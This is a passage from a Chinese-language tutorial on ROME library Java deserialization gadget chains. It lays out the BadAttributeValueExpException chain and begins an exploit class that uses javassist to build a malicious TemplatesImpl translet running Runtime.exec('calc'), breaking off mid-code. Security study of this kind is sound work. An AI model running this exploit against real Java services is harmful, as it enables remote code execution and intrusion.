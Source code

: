 [![](assets/1705886615-63aeab82a66c9cbbd5e01329cdd82c4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124744-0d0564c4-b74f-1.png)  
这里的key为ObjectBean对象，这样就调用了ObjectBean的hashCode方法，接下来的链与上一个链一致

## 6\. BadAttributeValueExpException利用链

### 利用链

```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
BadAttributeValueExpException.readObject()
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class BadAttrExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
```